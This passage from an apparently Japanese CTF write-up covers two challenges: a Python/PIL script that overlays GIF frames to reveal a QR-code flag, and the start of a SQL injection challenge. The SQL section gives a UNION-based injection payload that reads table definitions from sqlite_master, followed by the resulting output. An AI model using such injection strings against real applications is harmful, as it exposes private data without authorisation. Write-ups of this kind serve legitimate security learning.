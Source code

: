 
```
FLAG{32638}
```

### 重ねてみよう (プログラミング 100)
afterimage.gif というアニメーション gif が渡される。

重ねてみようという問題のタイトルに従って、重ねるスクリプトを書いてみる。

```python
from PIL import Image

im = Image.open('afterimage.gif')

res = Image.new('RGB', (164, 164))
pix = res.load()

for y in range(164):
  for x in range(164):
    pix[x, y] = (255, 255, 255)

try:
  while True:
    print(im.tell())

    im2 = im.convert('RGB').load()

    for y in range(164):
      for x in range(164):
        if im2[x, y] != (0, 0, 0):
          pix[x, y] = (0, 0, 0)

    im.seek(im.tell() + 1)
except EOFError:
  pass

res.save('result.png')
```

QR コードが出てきたので、携帯で読み取ってみる。

```
FLAG{Many dot makes a QR code}
```

### 箱庭SQLiチャレンジ (Web 100)
まず `' and 0 union select sql, null, null, null, null from sqlite_master where type = 'table'; --` でどんなテーブルがあるか確認する。

```
ID=CREATE TABLE COMPANY(ID INT PRIMARY KEY NOT NULL, NAME TEXT NOT NULL,AGE INT NOT NULL, ADDRESS CHAR(50), SALARY REAL ) NAME=NULL AGE=NULL ADDRESS=NULL SALARY=NULL
ID=CREATE TABLE SECCON(FLAG TEXT NOT NULL) NAME=NULL AGE=NULL ADDRESS=NULL SALARY=NULL 
```
